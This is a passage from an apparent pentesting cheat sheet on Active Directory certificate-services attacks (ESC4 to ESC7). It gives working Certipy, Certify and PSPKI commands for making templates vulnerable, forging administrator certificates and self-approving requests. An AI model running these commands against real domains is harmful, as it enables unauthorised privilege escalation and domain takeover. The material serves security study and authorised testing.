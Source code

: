 Certipy can overwrite the configuration of a certificate template with a single command. By default, Certipy will overwrite the configuration to make it vulnerable to ESC1. `-save-old` parameter can also be specified to save the old configuration, which will be useful for restoring the configuration after our attack.
```
# Make template vuln to ESC1
certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -save-old

# Exploit ESC1
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC4-Test -upn administrator@corp.local

# Restore config
certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -configuration ESC4-Test.json
```
#### Vulnerable PKI Object Access Control - ESC5
The extensive web of interconnected ACL-based relationships, which includes several objects beyond certificate templates and the certificate authority, can impact the security of the entire AD CS system. 

The security of the PKI system can be compromised if a low-privileged attacker manages to gain control over any of these critical components.

#### EDITF_ATTRIBUTESUBJECTALTNAME2 - ESC6
ESC6 is when the CA specifies the *EDITF_ATTRIBUTESUBJECTALTNAME2* flag. This flag allows the enrollee to specify an arbitrary SAN on all certificates despite a certificate template’s configuration.

Tools like Certify and Certipy are capable of detecting this misconfiguration and exploiting it:

```
# Detect vulnerabilities, including this one
Certify.exe find

# Exploit vulnerability
Certify.exe request /ca:dc.domain.local\theshire-DC-CA /template:User /altname:localadmin
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template User -upn administrator@corp.local
```
#### Vulnerable Certificate Authority Access Control - ESC7
Certificate Authorities (CAs) have permissions that secure various actions within AD CS. The **ManageCA** permission grants administrative privileges, allowing modifications to persistent configuration data, including the ability to enable the EDITF_ATTRIBUTESUBJECTALTNAME2 flag. The **ManageCertificates** permission, on the other hand, enables the approval of pending certificate requests, potentially bypassing the manager approval requirement.

A combination of Certify and PSPKI modules can be utilized to request, approve, and download a certificate:
```
# Request a certificate that will require an approval
Certify.exe request /ca:dc.domain.local\theshire-DC-CA /template:ApprovalNeeded
[...]
[*] CA Response      : The certificate is still pending.
[*] Request ID       : 336
[...]

# Use PSPKI module to approve the request
Import-Module PSPKI
Get-CertificationAuthority -ComputerName dc.domain.local | Get-PendingRequest -RequestID 336 | Approve-CertificateRequest

# Download the certificate
Certify.exe download /ca:dc.domain.local\theshire-DC-CA /id:336
```
Another attack includes **self grant the  Manage Certificates** access right by adding own user as a new officer and below are the prequisites: